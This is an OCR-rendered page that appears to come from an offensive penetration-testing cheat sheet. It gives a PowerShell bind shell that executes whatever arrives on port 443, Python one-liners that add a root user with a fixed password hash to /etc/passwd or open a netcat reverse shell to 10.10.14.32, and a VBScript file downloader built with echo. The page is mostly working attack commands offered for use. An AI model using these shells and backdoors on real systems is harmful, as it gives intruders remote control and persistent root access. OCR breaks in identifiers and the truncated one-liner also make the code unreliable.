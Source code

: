 ### PowerShell Binding Shell (Connect FROM netcat TO this machine)
```
$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
$listener.Stop();
```

### Echo shell into python
```
echo "import os" > tmp.py
echo "os.system('echo \"root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash\" >> /etc/passwd')" >> tmp.py
OR
echo "os.system('nc 10.10.14.32 1234 -e /bin/bash')" >> tmp.py


One liner of the above code:
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + '
```

## Transfering Files

### Transfer file from Kali to Windows using vbscript:
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo  Err.Clear >> wget.vbs 
echo  Set http = Nothing >> wget.vbs 
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo  http.Open "GET", strURL, False >> wget.vbs 
echo  http.Send >> wget.vbs 
echo  varByteArray = http.ResponseBody >> wget.vbs 
echo  Set http = Nothing >> wget.vbs 
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs 
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo  strData = "" >> wget.vbs 
echo  strBuffer = "" >> wget.vbs 
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
```